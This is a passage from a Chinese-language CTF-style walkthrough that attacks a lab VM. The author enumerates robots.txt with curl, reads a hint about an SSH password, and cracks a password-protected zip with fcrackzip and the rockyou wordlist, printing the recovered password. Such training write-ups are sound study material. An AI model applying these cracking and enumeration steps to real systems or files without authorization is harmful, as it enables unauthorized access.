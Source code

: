 ```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ curl http://172.16.86.144/robots.txt
User-agent: *
Disallow: /dripisreal.txt
Disallow: /etc/dripispowerful.html
```

访问下:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ curl http://172.16.86.144/dripisreal.txt
hello dear hacker wannabe,

go for this lyrics:

https://www.azlyrics.com/lyrics/youngthug/constantlyhating.html

count the n words and put them side by side then md5sum it

ie, hellohellohellohello >> md5sum hellohellohellohello

it's the password of ssh

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ curl http://172.16.86.144/etc/dripispowerful.html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 172.16.86.144 Port 80</address>
</body></html>
```

第一个文件提示我们去计算歌词的单词然后md5值作为ssh的登录密码，看起来不太现实，因为这个歌词很长，先暂时搁置；第二个文件访问不到，看来etc目录可能是操作系统的etc目录。

## 3. Exploit

截止到目前为止，我们拿到的数据有一个respectmydrip.zip文件，但是带密码；另外有一个ssh密码的提示信息。

### 1. Zip Crack

首先尝试破解respectmydrip.zip文件：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u respectmydrip.zip


PASSWORD FOUND!!!!: pw == 072528035

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ unzip respectmydrip.zip
Archive:  respectmydrip.zip
[respectmydrip.zip] respectmydrip.txt password:
 extracting: respectmydrip.txt
  inflating: secret.zip

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ ll
total 16
drwxr-xr-x 3 v4ler1an v4ler1an 4096 Nov  8 21:19 reports
```